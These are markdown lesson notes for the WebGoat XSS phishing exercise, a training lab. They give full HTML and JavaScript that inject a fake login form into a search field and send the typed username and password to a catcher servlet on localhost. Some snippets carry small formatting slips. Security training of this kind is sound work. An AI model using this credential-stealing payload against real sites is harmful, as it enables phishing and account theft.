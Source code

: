 # Webgoat XSS Phishing Lesson Notes
Inject HTML and JS to phish user credentials. This attack consists of two parts that you have to combine:
* A form the victim has to fill in
* A script which reads the form and sends the gathered information to the attacker

### The Malicious HTML Form
First inject the HTML into the Search input field to create a form just below it:

```html
<form name="phish"><br><br><HR><H3>This feature requires account login:</H2><br><br>Enter Username:<br><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br></form><br><br><HR>
  ```
Add a button that can POST a request:
```html
<input type="submit" name="login" value="login">
```
The HTML for the `submit` button has to go in the HTML before the closing `</form>` tag.
Also, you have to put an `onclick` handler before closing this last `input` tag.

```javascript
onclick="hack()"
```
So now the last `input` tag looks like this:

```html
<input type="submit" name="login" value="login" onclick="hack()">
```

At this point the injected HTML form looks like this:

```html
<form name="phish"><br><br><HR><H3>This feature requires account login:</H2><br><br>Enter Username:<br><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>
```

### The Malicious Script
But of course this means that you have to create a Javascript function called `hack()`. This function will pull the credentials from the webpage and post them to the WebGoat catcher servlet, which is running locally.

```javascript
<script>
function hack(){
  // Instantiate a new DOM image element which will perform a post
  XSSImage=new Image;
  // Post it to the WebGoat catcher servlet (which runs automatically)
  XSSImage.src="<http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user=" + \
  // Access the values of the user & pass input fields. Append to the URL.
  document.phish.user.value> + "&password=" + document.phish.pass.value + "";
  // Pop up an alert() to display the victim's username and password.
  alert("Had this been a real attack... Your credentials were just stolen. \
  User Name = " + document.phish.user.value + " Password = " + \
  document.phish.pass.value);
  }
</script>
```
### Launching the Attack
Because we're injecting a new pair of `form` tags (both `<form>` and `<form>`), we must terminate the existing Search form by prepending `</form>` at the beginning of what we're injecting.

```html
</form><script>function hack(){ XSSImage=new Image; XSSImage.src="http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user=" + document.phish.user.value + "&password=" + document.phish.pass.value + "";alert("Had this been a real attack... Your credentials were just stolen. User Name = " + document.phish.user.value + " Password = " + document.phish.pass.value);} </script><form name="phish"><br><br><HR><H3>This feature requires account login:</H2><br><br>Enter Username:<br><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>
```

Yes, we are ending up with an extra `</form>` tag at the bottom of the HTML of the response page. But the browser doesn't mind.
